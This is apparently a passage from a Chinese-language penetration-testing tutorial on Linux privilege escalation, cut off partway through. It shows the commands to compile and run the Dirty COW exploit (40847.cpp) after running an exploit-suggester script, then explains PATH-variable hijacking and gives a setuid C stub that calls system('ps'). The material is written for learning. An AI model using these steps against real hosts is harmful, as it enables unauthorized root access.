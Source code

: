 ### 复现

> 在漏洞的主机中上传漏洞检测脚本后，如果发现存在脏牛漏洞，则下载对应的 exp，并上传至目标主机进行利用。

```sh
bash ./les.sh
```

![](/images/微信图片_20220825172112.png)

通过链接下载对应的 exp 后，上传至服务器，并将 cpp 文件编译。

```sh
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
./dcow # 执行文件，如果没有权限，则使用命令 chmod 777 dcow 添加对应的权限。
```
成功拿到 root 权限。

![](/images/微信图片_20220825172501.png)

## 环境变量提权

### 原理

> PATH 是 Linux 和类 Unix 操作系统中的环境变量，它指定存储所有可执行程序的所有 bin 和 sbin 目录。当用户在终端上运行任何命令时，它会请求 shell 在 PATH 变量的帮助下搜索可执行文件，以响应用户执行的命令。超级用户通常还具有 /sbin 和 /usr/sbin 条目，以便轻松执行系统管理命令。

查看环境变量 $PATH：

```sh
echo $PATH
```

![](/images/微信图片_20220826133831.png)

::: info 理解

在 Linux 中如果执行命令，系统会在这些路径下寻找是否存在这些命令对应的可执行文件，例如，输入 `cat` 命令后，系统会在 $PATH 的路径下去寻找该命令对应的执行文件。

:::

```sh
which `cat`
```

![](/images/微信图片_20220826134056.png)

那么我们需要做的就是将路径修改，让系统首先在我们指定的目录下寻找命令对应的可执行文件，然后以 root 的身份执行该文件，即可达到提权的目的。

### 复现

首先我们要以 root 身份创建一个文件，文件的目录假设为 /tmp，文件名为 shell.c，并将这个文件编译后输出为一个可执行的文件：

```c
#include<stdlib.h>
#include <unistd.h>
void main()
{
  setuid(0);
  system("ps");
}
```
